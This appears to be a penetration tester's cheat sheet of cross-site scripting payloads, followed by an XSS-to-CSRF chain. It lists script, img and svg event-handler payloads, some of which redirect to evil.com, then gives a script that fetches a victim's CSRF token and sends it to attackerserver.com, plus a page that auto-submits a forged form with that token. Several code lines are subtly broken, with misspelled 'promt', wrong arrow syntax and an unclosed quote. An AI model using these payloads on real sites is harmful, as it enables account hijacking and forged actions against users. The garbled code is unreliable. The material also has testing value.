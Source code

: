 Note -  url encode special charcters

<script>alert(1)</script>
<script>prompt(1)</script>
<script>confirm(1)</script>

<script>alert`1`</script>
<script>prompt`1`</script>
<script>confirm`1`</script>

<img src=1 onerror=alert(1)>
<img src=1 onerror=prompt(1)>
<img src=1 onerror= confirm(1)>
<img src=1 onmouseover=alert(1)>
<img src=1 onmouseover=confirm(1)>
<img src=1 onmouseover=prompt(1)>
<img src=1 onfocus=alert(1)>
<img src=1 onfocus=confirm(1)>
<img src=1 onfocus=prompt(1)>

"><svg/onload=promt(1)>
"><svg/onmouseover=promt(1)>
"><svg/onfocus=promt(1)>
"><svg/onload=confirm(1)>
"><svg/onmouseover=confirm(1)>
"><svg/onfocus=confirm(1)>
"><svg/onload=window.location("https://evil.com")>
"><svg/onmouseover=window.location("https://evil.com")>
"><svg/onfocus=window.location("https://evil.com")>


";window.location="https://evil.com";//996
";onfocus=alert(1)//123
-;'alert(1)-';



*************************************************************************

XSS chained for CSRF 

The app was fetching updated CSRF token everytime through a URL, we utilised that url to fetch latest csrf token and using  XSS sent it to attacker server in query parameter of URL which is hosting CSRF poc and the poc automatically fetch token from query parameter and executed poc successfully.

note - convert space and special characters into url encoding
     - edit host file of server to attackerserver.com and start http server on port 1234

<script>
fetch('https://vulnerable.com/somepage.do?Token)
    .then(response -> response.text())
        .then(data -> getcsrf(data));

function getcsrf(data){
    var token = data;
    window.location.replace('http://attackerserver.com:1234/csrfpoc.html?token=$(token)')
}
</script>

and CSRF POC

<html>
<body>
<form>
...
<input type="hidden" name="formCsrfToken" id=="token" value="" />
...
</form>
</body>

<script>
const queryString = window.location.search;
const urlParams = new URLSearchParams(queryString);
const token = urlParams.get('token');
var elem = document.getElementById("token");
elem.value = token;
history.pushState('','','/');
document.forms[0].submit();
</script>

</html>